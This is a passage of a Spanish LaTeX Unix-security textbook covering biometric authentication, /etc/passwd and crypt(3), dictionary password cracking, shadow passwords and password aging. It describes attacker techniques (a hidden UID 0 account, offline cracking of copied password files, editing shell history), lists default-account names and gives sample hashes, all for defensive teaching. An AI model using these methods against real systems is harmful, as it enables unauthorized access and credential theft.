esta imagen normalizada de la que el sistema extrae las minucias (ciertos arcos,
bucles o remolinos de la huella) que va a comparar contra las que tiene en su
base de datos; es importante resaltar que lo que el sistema es capaz de analizar
no es la huella en s\'{\i} sino que son estas minucias, concretamente la 
posici\'on relativa de cada una de ellas. Est\'a demostrado que dos dedos nunca
pueden poseer m\'as de ocho minucias comunes, y cada uno tiene al menos 30 o
40 de \'estas (en la figura \ref{fingerprint} podemos ver una imagen
de una huella digitalizada con sus minucias). Si la comparaci\'on de las 
posiciones relativas de las minucias le\'{\i}das con las almacenadas en la base 
de datos es correcta, se permite el acceso al usuario, deneg\'andosele 
obviamente en caso contrario.\\
\\Los sistemas basados en reconocimiento de huellas son relativamente baratos 
(en comparaci\'on con otros bio\-m\'e\-tri\-cos, como los basados en patrones 
retinales); sin embargo, tienen en su contra la incapacidad temporal de 
autenticar usuarios que se hayan podido herir en el dedo a reconocer (un 
peque\~no corte o una quemadura que afecte a varias minucias pueden hacer
in\'util al sistema). Tambi\'en elementos como la suciedad del dedo, la 
presi\'on ejercida sobre el lector o el estado de la piel pueden ocasionar 
lecturas err\'oneas. Otro factor a tener muy en cuenta contra estos sistemas es
psicol\'ogico, no t\'ecnico: hemos dicho en la introducci\'on que un sistema
de autenticaci\'on de usuarios ha de ser aceptable por los mismos, y 
generalmente el reconocimiento de huellas se asocia a los criminales, por lo que
muchos usuarios recelan del reconocedor y de su uso (\cite{kn:kra97}).
\subsection{Verificaci\'on de patrones oculares}  
Los modelos de autenticaci\'on biom\'etrica basados en patrones oculares se
dividen en dos tecnolog\'{\i}as diferentes: o bien analizan patrones retinales,
o bien analizan el iris. Estos m\'etodos se suelen considerar los m\'as 
efectivos: para una poblaci\'on de 200 millones de potenciales usuarios la 
probabilidad de coincidencia es casi 0, y adem\'as una vez muerto el individuo 
los tejidos oculares degeneran r\'apidamente, lo que dificulta la falsa 
aceptaci\'on de atacantes que puedan robar este \'organo de un cad\'aver.\\
\\La principal desventaja de los m\'etodos basados en el an\'alisis de patrones
oculares es su escasa aceptaci\'on; el hecho de mirar a trav\'es de 
un binocular (o monocular), necesario en ambos modelos, no es c\'omodo para los 
usuarios, ni aceptable para muchos de ellos: por un lado, los usuarios {\it no 
se f\'{\i}an} de un haz de rayos analizando su ojo\footnote{Aunque en el
caso de los irises existen 
dispositivos capaces de leer a una distancia de varios metros, haciendo el 
proceso menos agresivo.}, y por otro un examen de este
\'organo puede revelar enfermedades o caracter\'{\i}sticas m\'edicas que a 
muchas personas les puede interesar mantener en secreto, como el consumo de 
alcohol o
de ciertas drogas. Aunque los fabricantes de dispositivos lectores aseguran que 
s\'olo se analiza el ojo para obtener patrones relacionados con la 
autenticaci\'on, y en ning\'un caso se viola la privacidad de los usuarios, 
mucha gente no cree esta postura oficial (aparte del hecho de que la 
informaci\'on es procesada v\'{\i}a {\it software}, lo que facilita introducir
modificaciones sobre lo que nos han vendido para que un lector realice otras
tareas de forma enmascarada). Por si esto fuera poco, se trata de sistemas 
demasiado caros para la mayor\'{\i}a de organizaciones, y el proceso de
autenticaci\'on no es todo lo r\'apido que debiera en poblaciones de usuarios
elevadas. De esta forma, su uso se ve reducido casi s\'olo a la 
identificaci\'on en sistemas de alta seguridad, como el control de acceso a 
instalaciones militares.
\subsubsection{Retina}
La vasculatura retinal (forma de los vasos sangu\'{\i}neos de la retina humana)
es un elemento ca\-rac\-ter\'{\i}stico de cada individuo, por lo que numerosos
estudios en el campo de la autenticaci\'on de usuarios se basan en el
reconocimiento de esta vasculatura.\\
\\En los sistemas de autenticaci\'on basados en patrones retinales el usuario
a identificar ha de mirar a trav\'es de unos binoculares, ajustar la distancia
interocular y el movimiento de la cabeza, mirar a un punto determinado y por
\'ultimo pulsar un bot\'on para indicar al
dispositivo que se encuentra listo para el an\'alisis. En ese momento se escanea
la retina con una radiaci\'on infrarroja de baja intensidad en forma de espiral,
detectando los nodos y ramas del \'area retinal para compararlos con los 
almacenados en una base de datos; si la muestra coincide con la almacenada para
el usuario que el individuo dice ser, se permite el acceso.\\
\\La compa\~n\'{\i}a EyeDentify posee la patente mundial para analizadores de
vasculatura retinal, por lo que es la principal desarrolladora de esta 
tecnolog\'{\i}a; su p\'agina {\it web} se puede encontrar en {\tt 
http://www.eyedentify.com/}.
\subsubsection{Iris}
El iris humano (el anillo que rodea la pupila, que a simple vista diferencia 
el color de ojos de cada persona) es igual que la vasculatura retinal una 
estructura \'unica por individuo que
forma un sistema muy complejo -- de hasta 266 grados de libertad -- , 
inalterable durante toda la vida de la persona. El uso por parte de un atacante
de \'organos replicados o simulados para conseguir una falsa aceptaci\'on es 
casi imposible con an\'alisis infrarrojo, capaz de detectar con una alta 
probabilidad si el iris es natural o no.\\
\begin{figure}[t]
\begin{center}

\includegraphics[width=\textwidth]{iriscode.png}
\end{center}
\caption{Iris humano con la extracci\'on de su {\it iriscode}.}
\label{iriscode}
\end{figure}
\\La identificaci\'on basada en el reconocimiento de iris es m\'as moderna que
la basada en patrones retinales; desde hace unos a\~nos el iris humano se viene 
utilizando para la autenticaci\'on de usuarios (\cite{kn:bou96}, 
\cite{kn:dau97}). Para ello, se captura una imagen del iris en blanco
y negro, en un entorno correctamente iluminado; esta imagen se somete a 
deformaciones pupilares (el tama\~no de la pupila var\'{\i}a enormemente en
funci\'on de factores externos, como la luz) y de ella se extraen patrones, que
a su vez son sometidos a transformaciones matem\'aticas (\cite{kn:mcm97}) hasta 
obtener una 
cantidad de datos (t\'{\i}picamente 256 {\it KBytes}) suficiente para
los prop\'ositos de autenticaci\'on. Esa muestra, denominada {\it iriscode} 
(en la figura \ref{iriscode} se muestra una imagen de un iris humano con su 
{\it iriscode} asociado) es comparada con otra tomada
con anterioridad y almacenada en la base de datos del sistema, de forma que si
ambas coinciden el usuario se considera autenticado con \'exito; la 
probabilidad de una falsa aceptaci\'on es la menor de todos los modelos
biom\'etricos (\cite{kn:dau98}).\\
\\La empresa estadounidense {\it IriScan} es la principal desarrolladora de
tecnolog\'{\i}a (y de investigaciones) basada en reconocimiento de iris que
existe actualmente, ya que posee la patente sobre esta tecnolog\'{\i}a; 
su p\'agina {\it web}, con interesantes art\'{\i}culos sobre este modelo de 
autenticaci\'on (a diferencia de la p\'agina de EyeDentify), se puede consultar 
en {\tt http://www.iriscan.com/}.
\subsection{Verificaci\'on de la geometr\'{\i}a de la mano}
\begin{figure}[t]
\begin{center}

\includegraphics[width=\textwidth]{hand.png}
\end{center}
\caption{Geometr\'{\i}a de una mano con ciertos par\'ametros extra\'{\i}dos.}
\label{hand}
\end{figure}
Los sistemas de autenticaci\'on basados en el an\'alisis de la geometr\'{\i}a
de la mano son sin duda los m\'as r\'apidos dentro de los biom\'etricos: con
una probabilidad de error aceptable en la mayor\'{\i}a de ocasiones, en 
aproximadamente un 
segundo son capaces de determinar si una persona es quien dice ser.\\
\\Cuando un usuario necesita ser autenticado situa su mano sobre un dispositivo
lector con unas gu\'{\i}as que marcan la posici\'on correcta para la lectura
(figura \ref{hand}). Una vez la mano est\'a correctamente situada, unas 
c\'amaras toman una imagen superior y otra lateral, de las que se extraen 
ciertos datos (anchura, longitud, \'area, determinadas distancias\ldots) en un 
formato de tres dimensiones. Transformando estos datos en un modelo 
matem\'atico que se contrasta contra una base de patrones, el sistema es capaz
de permitir o denegar acceso a cada usuario.\\
\\Quiz\'as uno de los elementos m\'as importantes del reconocimiento mediante
analizadores de geometr\'{\i}a de la mano es que \'estos son capaces de 
aprender: a la vez que autentican a un usuario, actualizan su base de datos con
los cambios que se puedan producir en la muestra (un peque\~no crecimiento, 
adelgazamiento, el proceso de cicatrizado de una herida\ldots); de esta forma
son capaces de identificar correctamente a un usuario cuya muestra se tom\'o 
hace a\~nos, pero que ha ido accediendo al sistema con regularidad. Este hecho, 
junto a su rapidez y su buena aceptaci\'on entre los usuarios, hace que los 
autenticadores basados en la geometr\'{\i}a de la mano sean los m\'as 
extendidos dentro de los biom\'etricos a pesar de que su tasa de falsa
aceptaci\'on se podr\'{\i}a considerar inaceptable en algunas situaciones: no
es normal, pero s\'{\i} posible, que dos personas tengan la mano lo 
suficientemente parecida como para que el sistema las confunda. Para minimizar
este problema se recurre a la identificaci\'on basada en la geometr\'{\i}a de
uno o dos dedos, que adem\'as puede usar dispositivos lectores m\'as baratos y
proporciona incluso m\'as rapidez.
\section{Autenticaci\'on de usuarios en Unix}
\label{unixua}
\subsection{Autenticaci\'on cl\'asica}
En un sistema Unix habitual cada usuario posee un nombre de entrada al sistema
o {\it login} y una clave o {\it password}; ambos datos se almacenan 
generalmente en el fichero {\tt /etc/passwd}. Este archivo contiene una 
l\'{\i}nea por usuario (aunque hay entradas que no corresponden a usuarios 
reales, como veremos a continuaci\'on) donde se indica la informaci\'on 
necesaria para que los usuarios puedan conectar al sistema y trabajar en \'el, 
separando los diferentes campos mediante {\tt `:'}. Por ejemplo, podemos
encontrar entradas parecidas a la siguiente:
\begin{center}
{\tt toni:LEgPN8jqSCHCg:1000:100:Antonio Villalon,,,:/export/home/toni:/bin/sh}\vspace{5pt}\\
\end{center}
En primer lugar aparecen el {\it login} del usuario y su clave cifrada; a 
continuaci\'on tenemos dos n\'umeros que ser\'an el identificador de usuario y
el de grupo respectivamente. El quinto campo, denominado {\sc gecos} es 
simplemente informaci\'on administrativa sobre la identidad real del usuario,
como su nombre, tel\'efono o n\'umero de despacho. Finalmente, los dos \'ultimos
campos corresponden al directorio del usuario (su {\it \$HOME} inicial) y al
{\it shell} que le ha sido asignado.\\
\\Al contrario de lo que mucha gente cree, Unix no es capaz de distinguir a sus
usuarios por su nombre de entrada al sistema. Para el sistema operativo lo que
realmente distingue a una persona de otra (o al menos a un usuario de otro) es
el UID del usuario en cuesti\'on; el {\it login} es algo que se 
utiliza principalmente para comodidad de las personas (obviamente es m\'as 
f\'acil acordarse de un nombre de entrada como {\it toni} que de un UID como 
2643, sobre todo si se tienen cuentas en varias m\'aquinas, cada una con un UID 
diferente). Por tanto, si en {\tt /etc/passwd} existen
dos entradas con un mismo UID, para Unix se tratar\'a del mismo usuario, aunque
tengan un {\it login} y un {\it password} diferente: as\'{\i}, si dos usuarios
tienen asignado el UID 0, ambos tendr\'an privilegios de superusuario, sin
importar el {\it login} que utilicen. Esto es especialmente aprovechado por 
atacantes que han
conseguido privilegios de administrador en una m\'aquina: pueden a\~nadir una 
l\'{\i}nea a {\tt /etc/passwd} mezclada entre todas las dem\'as, con un nombre 
de usuario normal pero con el UID 0; as\'{\i} garantizan su entrada al sistema 
como administradores en caso de ser descubiertos, por ejemplo para borrar 
huellas. Como a simple vista puede resultar dif\'{\i}cil localizar la 
l\'{\i}nea insertada, especialmente en sistemas con un gran n\'umero de 
usuarios, para detectar las cuentas con privilegios en la m\'aquina podemos 
utilizar la siguiente orden:
\begin{quote} 
\begin{verbatim} 
anita:~# awk -F: '$3==0 {print $1}' /etc/passwd
root
anita:~#
\end{verbatim}
\end{quote}\vspace{5pt}
En el fichero de claves van a existir entradas que no corresponden a usuarios
reales, sino que son utilizadas por ciertos programas o se trata de cuentas 
mantenidas por motivos de compatibilidad con otros sistemas; t\'{\i}picos 
ejemplos de este tipo de entradas son {\tt lp}, {\tt uucp} o {\tt postmaster}.
Estas cuentas han de estar bloqueadas en la mayor\'{\i}a de casos, para evitar
que alguien pueda utilizarlas para acceder a nuestro sistema: s\'olo han de
ser accesibles para el {\it root} mediante la orden {\tt su}. Aunque en su 
mayor\'{\i}a cumplen esta condici\'on, en algunos sistemas estas cuentas tienen
claves por defecto o, peor, no tienen claves, lo que las convierte en una 
puerta completamente abierta a los intrusos; es conveniente que, una vez 
instalado el sistema operativo, y antes de poner a trabajar la m\'aquina, 
comprobemos que est\'an bloqueadas, o en su defecto que tienen claves no 
triviales. Algunos ejemplos de cuentas sobre los que hay que prestar una 
especial atenci\'on son\footnote{Hemos preferido no mostrar las claves por 
defecto (si las tienen) ni el sistema operativo concreto.} {\tt root}, 
{\tt guest}, {\tt lp}, {\tt demos}, {\tt 4DGifts}, {\tt tour}, {\tt uucp}, 
{\tt nuucp}, {\tt games} o {\tt postmaster}; es muy recomendable
consultar los manuales de cada sistema concreto, y chequear peri\'odicamente 
la existencia de cuentas sin clave o cuentas que deber\'{\i}an permanecer 
bloqueadas y no lo est\'an.\\  
\\Para cifrar las claves de acceso de sus usuarios, el sistema operativo
Unix emplea un criptosistema irreversible que utiliza la funci\'on est\'andar
de C {\tt crypt(3)}, basada en el algoritmo DES. Para una 
descripci\'on exhaustiva del funcionamiento de {\tt crypt(3)} se puede consultar
\cite{kn:mor79}, \cite{kn:fel90} o \cite{kn:spa96}. Esta funci\'on
toma como clave los ocho primeros caracteres de la contrase\~na elegida por el 
usuario (si la longitud de \'esta es menor, se completa con ceros) para cifrar 
un bloque de 
texto en claro de 64 bits puestos a cero; para evitar que dos {\it passwords}
iguales resulten en un mismo texto cifrado, se realiza una permutaci\'on durante
el proceso de cifrado elegida de forma autom\'atica y aleatoria para cada 
usuario, basada en un campo formado por un n\'umero de 12 bits (con lo que
conseguimos 4096 permutaciones diferentes) llamado {\it salt}.
El cifrado resultante se vuelve a cifrar utilizando la contrase\~na del 
usuario de nuevo como clave, y permutando con el mismo {\it salt}, 
repiti\'endose el 
proceso 25 veces. El bloque cifrado final, de 64 bits, se concatena con dos 
bits cero, obteniendo 66 bits que se hacen representables en 11 caracteres de 6 
bits cada uno y que, junto con el {\it salt}, pasan a constituir el campo {\it 
password} del fichero de contrase\~nas, usualmente {\tt /etc/passwd}. As\'{\i}, 
los dos primeros caracteres de este campo estar\'an constituidos por el {\it 
salt} y los 11 restantes por la contrase\~na cifrada:
\begin{center}
{\tt toni:{\bf LEgPN8jqSCHCg}:1000:100:Antonio Villalon,,,:/export/home/toni:/bin/sh}\vspace{5pt}\\
{\sc salt:} \fbox{LE}\hspace{50pt}
{\sc Password cifrado:} \fbox{gPN8jqSCHCg}
\end{center}
Como hemos dicho antes, este criptosistema es irreversible. Entonces, >c\'omo 
puede un usuario conectarse a una m\'aquina Unix? El proceso es sencillo: el 
usuario 
introduce su contrase\~na, que se utiliza como clave para cifrar 64 bits a 0
bas\'andose en el {\it salt}, le\'{\i}do en {\tt /etc/passwd}, de dicho usuario.
Si tras aplicar el algoritmo de 
cifrado el resultado se corresponde con lo almacenado en los \'ultimos 11 
caracteres del campo {\it password} del fichero de contrase\~nas, la clave del 
usuario se considera v\'alida y se permite el acceso. En caso contrario se le
deniega y se almacena en un fichero el intento de conexi\'on fallido.
\subsection{Mejora de la seguridad}
\subsubsection{Problemas del modelo cl\'asico}
Los ataques de texto cifrado escogido constituyen la principal amenaza al 
sistema de 
autenticaci\'on de Unix; a diferencia de lo que mucha gente cree, no es posible 
descifrar una contrase\~na, pero es muy f\'acil cifrar una palabra junto a un
determinado {\it salt}, y comparar el resultado con la cadena almacenada en el 
fichero de claves. De esta forma, un atacante leer\'a el fichero {\tt 
/etc/passwd} (este fichero ha de tener permiso de lectura para todos los 
usuarios si queremos que el sistema funcione correctamente), y mediante un 
programa adivinador (o {\it crackeador}) como {\tt Crack} o {\tt John the 
Ripper} cifrar\'a todas 
las palabras de un fichero denominado {\it diccionario} (un fichero ASCII con 
un gran n\'umero de palabras de cualquier idioma o campo de la sociedad -- 
historia cl\'asica, deporte, cantantes de {\it rock}\ldots), comparando el 
resultado obtenido en este proceso con la clave cifrada del fichero de 
contrase\~nas; si ambos coinciden, ya ha obtenido una clave para acceder al 
sistema de forma no autorizada. Este proceso se puede pero no se suele hacer en 
la m\'aquina local, ya que en este caso hay bastantes posibilidades de detectar 
el ataque: desde modificar en c\'odigo de la funci\'on {\tt crypt(3)} para que
alerte al administrador cuando es invocada repetidamente (cada vez que el 
adivinador cifra una palabra utiliza esta funci\'on) hasta simplemente darse 
cuenta de una carga de CPU excesiva (los programas adivinadores suelen consumir 
un tiempo de procesador considerable). Lo habitual es que el atacante transfiera
una copia del archivo a otro ordenador y realice el proceso en esta otra 
m\'aquina; ni siquiera se tiene que tratar de un servidor Unix con gran 
capacidad de c\'omputo: existen muchos programas adivinadores que se ejecutan 
en un PC normal, bajo MS-DOS o Windows. Obviamente, este segundo caso es mucho
m\'as dif\'{\i}cil de detectar, ya que se necesita una auditor\'{\i}a de los
programas que ejecuta cada usuario (y utilidades como {\tt cp} o {\tt ftp} no
suelen llamar la atenci\'on del administrador). Esta auditor\'{\i}a la ofrecen
muchos sistemas Unix (generalmente en los ficheros de {\it log} {\tt 
/var/adm/pacct} o {\tt /var/adm/acct}), pero no se suele utilizar por los 
excesivos recursos que puede consumir, incluso en sistemas peque\~nos; 
obviamente, no debemos fiarnos nunca de los archivos hist\'oricos de \'ordenes 
del usuario (como {\tt \$HOME/.sh$\_$history} o {\tt \$HOME/.bash$\_$history}), 
ya que el atacante los puede modificar para ocultar sus actividades, sin 
necesidad de ning\'un privilegio especial.
\subsubsection{Contrase\~nas aceptables}
La principal forma de evitar este tipo de ataque es utilizar {\it passwords} 
que no sean palabras de los ficheros {\it diccionario} t\'{\i}picos: 
combinaciones de min\'usculas y may\'usculas, n\'umeros mezclados con texto, 
s\'{\i}mbolos como \&, \$ o \%, etc. Por supuesto, hemos de huir de claves
simples como {\it internet} o {\it beatles}, nombres propios, combinaciones 
d\'ebiles como {\it Pepito1} o {\it qwerty}, nombres de lugares, actores, 
personajes de libros, deportistas\ldots Se han realizado numerosos estudios
sobre c\'omo evitar este tipo de {\it passwords} en los usuarios 
(\cite{kn:alv88}, \cite{kn:kle90}, \cite{kn:spa91b}, \cite{kn:bel93}, 
\cite{kn:bis91}, \cite{kn:bis95}\dots), y tambi\'en se han dise\~nado potentes 
herramientas para lograrlo, como {\tt Npasswd} o {\tt Passwd+} 
(\cite{kn:spa91b}, \cite{kn:bis92}, \cite{kn:che92}\ldots). Es bastante 
recomendable instalar alguna de ellas para `obligar' a los usuarios a utilizar
contrase\~nas aceptables (muchos Unices ya las traen incorporadas), pero 
no conviene confiar toda la seguridad de nuestro sistema a estos 
programas\footnote{<Ni a ning\'un otro!}.
Como norma, cualquier administrador deber\'{\i}a ejecutar con cierta 
periodicidad alg\'un programa adivinador, tipo {\it Crack}, para comprobar que
sus usuarios no han elegidos contrase\~nas d\'ebiles (a pesar del uso de 
{\tt Npasswd} o {\tt Passwd+}): se puede tratar de claves generadas antes de
instalar estas utilidades o incluso de claves asignadas por el propio {\it root}
que no han pasado por el control de estos programas.\\%\vspace{6pt}\\
\\Por \'ultimo es necesario recordar que para que una contrase\~na sea aceptable
obligatoriamente ha de cumplir el principio {\bf KISS}, que hablando de {\it
passwords} est\'a claro que no puede significar {\it `Keep it simple, stupid!'}
sino {\bf `Keep it SECRET, stupid!'}. La contrase\~na m\'as larga, la m\'as
dif\'{\i}cil de recordar,
la que combina m\'as caracteres no alfab\'eticos\ldots pierde toda su robustez
si su propietario la comparte con otras personas\footnote{{\it `Three can keep
a secret\ldots if two of them are dead'}. Benjamin Franklin.}.
\begin{center}
\fbox{
\parbox{5.5in}{
Para verificar el hecho que de no hay que confiar toda la seguridad de un 
sistema a ning\'un programa, hemos {\it crackeado} el fichero de claves de un
servidor de la Universidad Polit\'ecnica de Valencia. Se trata de un sistema 
Unix con unos 1300 
usuarios, dedicado a c\'alculo cient\'{\i}fico (obviamente, no vamos a decir
el nombre del servidor). A pesar de utilizar un mecanismo que no permite que
los usuarios elijan claves d\'ebiles, en menos de dos horas de ejecuci\'on sobre
un Pentium MMX a 233 MHz el programa Crack corriendo sobre Solaris ha encontrado
seis claves de usuario utilizando exclusivamente diccionarios de demostraci\'on 
que acompa\~nan al programa (seguramente si utiliz\'aramos diccionarios en 
castellano o relacionados con temas como el deporte o la m\'usica nacionales
-- que los hay-- habr\'{\i}amos encontrado alguna clave m\'as\ldots). Se puede 
pensar que s\'olo seis usuarios de entre 1300 es 
algo bastante aceptable, pero no es as\'{\i}: cualquier combinaci\'on v\'alida
de {\it login} y {\it password} es una puerta abierta en nuestro sistema; si
un intruso consigue entrar por esta puerta, tiene m\'as del 70\% del camino
recorrido para obtener el control total de la m\'aquina. Si queremos conseguir
un sistema m\'{\i}nimamente fiable, no podemos permitir ni una sola clave 
d\'ebil.\\
Sin embargo, tampoco hay que pensar que programas como {\tt Passwd+} no 
desempe\~nan bien su labor: en 1994, cuando en el sistema con el que hemos 
realizado la prueba anterior no dispon\'{\i}a de estos mecanismos de seguridad,
en menos de 12 horas de ejecuci\'on de un programa adivinador sobre un 486DX a
33 MHz utilizando Linux, se consiguieron extraer m\'as de cien claves, entre
ellas algunas de usuarios con cierto nivel de privilegio dentro del sistema.
}}\vspace{10pt}
\end{center}
\subsubsection{Shadow Password}
Otro m\'etodo cada d\'{\i}a m\'as utilizado para proteger las contrase\~nas
de los usuarios el denominado {\it Shadow Password} u oscurecimiento de
contrase\~nas. La idea b\'asica de 
este mecanismo es impedir que los usuarios sin privilegios puedan leer el 
fichero donde se almacenan las claves cifradas; en el punto anterior hemos
comentado que el fichero {\tt /etc/passwd} tiene que tener permiso de lectura
para todo el mundo si queremos que el sistema funcione correctamente. En 
equipos con oscurecimiento de contrase\~nas este fichero sigue siendo legible
para todos los usuarios, pero a diferencia del mecanismo tradicional, las 
claves cifradas no se guardan en \'el, sino en el archivo {\tt /etc/shadow},
que s\'olo el {\it root} puede leer. En el campo correspondiente a la clave
cifrada de {\tt /etc/passwd} no aparece \'esta, sino un s\'{\i}mbolo que indica
a determinados programas (como {\tt /bin/login}) que han de buscar las claves 
en {\tt /etc/shadow}, generalmente una {\tt x}:
\begin{center}
{\tt toni:{\bf x}:1000:100:Antonio Villalon,,,:/export/home/toni:/bin/sh}\vspace{5pt}\\
\end{center}
El aspecto de {\tt /etc/shadow} es en cierta forma similar al de {\tt 
/etc/passwd} que ya hemos comentado: existe una l\'{\i}nea por cada usuario del
sistema, en la que se almacena su {\it login} y su clave cifrada. Sin embargo, 
el resto de campos de este fichero son diferentes; corresponden a informaci\'on 
que permite implementar otro mecanismo para proteger las claves de los usuarios,
el envejecimiento de contrase\~nas o {\it Aging Password}, del que hablaremos a
continuaci\'on:
\begin{center}
{\tt toni:LEgPN8jqSCHCg:10322:0:99999:7:::}
\end{center}
Desde hace un par de a\~nos, la gran mayor\'{\i}a de Unices del mercado 
incorporan este mecanismo; si al instalar el sistema operativo las claves 
aparecen almacenadas en {\tt /etc/passwd} podemos comprobar si existe la orden
{\tt pwconv}, que convierte un sistema cl\'asico a uno oscurecido. Si no es
as\'{\i}, o si utilizamos un Unix antiguo que no posee el mecanismo de {\it
Shadow Password}, es muy conveniente que consigamos el paquete que lo 
implementa (seguramente se tratar\'a de un fichero {\tt shadow.tar.gz} que
podemos encontar en multitud de servidores, adecuado a nuestro clon de Unix) y
lo instalemos en el equipo. Permitir que todos los usuarios lean las 
claves cifradas ha representado durante a\~nos, y sigue representando, uno de 
los mayores problemas de seguridad de Unix; adem\'as, una de las actividades
preferidas de piratas novatos es intercambiar ficheros de claves de los sistemas
a los que acceden y {\it crackearlos}, con lo que es suficiente una persona que
lea nuestro fichero para tener en poco tiempo una colonia de intrusos en 
nuestro sistema. 
\subsubsection{Envejecimiento de contrase\~nas}
En casi todas las implementaciones de {\it Shadow Password} 
actuales\footnote{{\it AT\&T/USL} fu\'e el pionero en utilizar envejecimiento
junto al {\it shadow password}.} se suele incluir la
implementaci\'on para otro mecanismo de protecci\'on de las claves denominado
envejecimiento de contrase\~nas ({\it Aging Password}). La idea b\'asica de
este mecanismo es proteger los {\it passwords} de los usuarios d\'andoles un 
determinado periodo de vida: una contrase\~na s\'olo va a ser v\'alida durante 
un cierto tiempo, pasado el cual expirar\'a y el usuario deber\'a cambiarla.\\
\\Realmente, el envejecimiento previene m\'as que problemas con las claves 
problemas con la transmisi\'on de \'estas por la red: cuando conectamos 
mediante mecanismos como {\tt telnet}, {\tt ftp} o {\tt rlogin} a un sistema 
Unix, cualquier equipo entre el nuestro y el servidor puede leer los paquetes
que enviamos por la red, incluyendo aquellos que contienen nuestro nombre de
usuario y nuestra contrase\~na (hablaremos de esto m\'as a fondo en los 
cap\'{\i}tulos dedicados a la seguridad del sistema de red y a la 
criptograf\'{\i}a); de esta forma, un atacante situado en un ordenador 
intermedio puede obtener muy f\'acilmente nuestro {\it login} y nuestro {\it 
password}. Si la clave capturada es v\'alida indefinidamente, esa persona tiene
un acceso asegurado al servidor en el momento que quiera; sin embargo, si la
clave tiene un periodo de vida, el atacante s\'olo podr\'a utilizarla antes de
que el sistema nos obligue a cambiarla.\\
\\A primera vista, puede parecer que la utilidad del envejecimiento de 
contrase\~nas no es muy grande; al fin y al cabo, la lectura de paquetes 
destinados a otros equipos ({\it sniffing}) no se hace por casualidad: el 
atacante que lea la red en busca de claves y nombres de usuario lo va a hacer
porque quiere utilizar estos datos contra un sistema. Sin embargo, una 
pr\'actica habitual es dejar programas escuchando durante d\'{\i}as y grabando 
la informaci\'on le\'{\i}da en ficheros; cada cierto tiempo el pirata 
consultar\'a los resultados de tales programas, y si la clave le\'{\i}da ya ha 
expirado y su propietario la ha cambiado por otra, el haberla capturado no le 
servir\'a de nada a ese atacante.\\
\begin{figure}[t]
\vspace{0.5in}
\begin{center}

\includegraphics{admintool.png}
\vspace{0.3in}
\end{center}
\caption{La herramienta de administraci\'on {\tt admintool} (Solaris), con
opciones para envejecimiento de claves.}
\label{admintool}
\end{figure}
\\Los periodos de expiraci\'on de las claves se suelen definir a la hora de
crear a los usuarios con las herramientas que cada sistema ofrece para ello
(por ejemplo, Solaris y su {\tt admintool}, mostrado en la figura \ref{admintool}). 
Si queremos modificar alguno de estos periodos una vez establecidos, desde esas
mismas herramientas de administraci\'on podremos hacerlo, y tambi\'en desde
l\'{\i}nea de \'ordenes mediante \'ordenes como {\tt chage} o {\tt usermod}.
Como antes hemos dicho, en el archivo {\tt /etc/shadow} se almacena, junto a la 
clave cifrada de cada usuario, la informaci\'on necesaria para implementar el 
envejecimiento de contrase\~nas; una entrada de este archivo es de la forma
\begin{center}
{\tt toni:LEgPN8jqSCHCg:10322:0:99999:7:::}
\end{center}
Tras el {\it login} y el {\it password} de cada usuario se guardan los campos 
siguientes:
\begin{itemize}
\item D\'{\i}as transcurridos desde el 1 de enero de 1970 hasta que la clave se 
cambi\'o por \'ultima vez.
\item D\'{\i}as que han de transcurrir antes de que el usuario pueda volver a
cambiar su contrase\~na.
\item D\'{\i}as tras los cuales se ha de cambiar la clave.
\item D\'{\i}as durante los que el usuario ser\'a avisado de que su clave va
a expirar antes de que \'esta lo haga.
\item D\'{\i}as que la cuenta estar\'a habilitada tras la expiraci\'on de la
clave.
\item D\'{\i}as desde el 1 de enero de 1970 hasta que la cuenta se deshabilite.
\item Campo reservado.
\end{itemize}
Como podemos ver, cuando un usuario cambia su clave el sistema le impide 
volverla a cambiar durante un periodo de tiempo; con esto se consigue que 
cuando el sistema obligue a cambiar la contrase\~na el usuario no restaure 
inmediatamente su clave antigua (en este caso el esquema no servir\'{\i}a de
nada). Cuando este periodo finaliza, suele existir un intervalo de cambio 
voluntario: est\'a permitido el cambio de contrase\~na, aunque no es 
obligatorio; al finalizar este nuevo periodo, el {\it password} ha expirado y ya
es obligatorio cambiar la clave. Si el n\'umero m\'aximo de d\'{\i}as en los
que el usuario no puede cambiar su contrase\~na es mayor que el n\'umero de 
d\'{\i}as tras los cuales es obligatorio el cambio, el usuario {\bf no puede
cambiar nunca su clave}. Si tras el periodo de cambio obligatorio el {\it
password} permanece inalterado, la cuenta se bloquea.\\
\\En los sistemas Unix m\'as antiguos (hasta {\it System V Release 3.2}), sin 
{\it shadow password}, toda la informaci\'on de envejecimiento se almacena en 
{\tt /etc/passwd}, junto al campo correspondiente a la clave cifrada de cada 
usuario pero separada de \'este por una coma:
\begin{center}
{\tt root:cp5zOHITeZLWM,A.B8:0:0:El Spiritu Santo,,,:/root:/bin/bash}
\end{center}
\begin{table}
\begin{center}
\begin{tabular}{|c||c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|}
\hline
Car\'acter & . & / & 0 & 1 & 2 & 3 & 4 & 5 & 6 & 7 & 8 & 9 & A & B & C\\
\hline
